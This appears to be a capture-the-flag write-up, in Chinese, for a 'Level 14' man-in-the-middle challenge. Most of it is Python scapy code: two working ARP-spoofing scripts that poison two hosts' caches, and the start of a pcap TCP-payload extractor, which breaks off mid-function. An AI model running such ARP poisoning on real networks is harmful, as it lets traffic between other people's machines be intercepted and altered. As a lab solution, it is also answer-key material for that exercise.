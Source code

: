 # Level 14

## 问题描述

> Man-in-the-middle traffic between two remote hosts and inject extra traffic





## EXP

```py
from scapy.all import *

sender_ip = "10.0.0.3"

sender_mac = "d6:31:26:73:8b:2c"

target_ip = "10.0.0.4"

arp_reply = ARP(op=2, psrc=sender_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=sender_mac)

ethernet_frame = Ether(dst="ff:ff:ff:ff:ff:ff")

packet = ethernet_frame / arp_reply

sendp(packet, iface="eth0", verbose=False)
```



第二个

```py
from scapy.all import *

sender_ip = "10.0.0.4"

sender_mac = "d6:31:26:73:8b:2c"

target_ip = "10.0.0.3"

arp_reply = ARP(op=2, psrc=sender_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=sender_mac)

ethernet_frame = Ether(dst="ff:ff:ff:ff:ff:ff")

packet = ethernet_frame / arp_reply

sendp(packet, iface="eth0", verbose=False)
```



```py
from scapy.all import rdpcap, TCP

def extract_tcp_data_from_pcap(pcap_file, target_port):
    # 读取 pcap 文件
    packets = rdpcap(pcap_file)
    extracted_data = []

    # 遍历所有数据包
    for pkt in packets:
        # 筛选出 TCP 包，并且检查是否与目标端口相关
        if TCP in pkt and (pkt[TCP].sport == target_port or pkt[TCP].dport == target_port):
            # 提取 TCP Payload
```
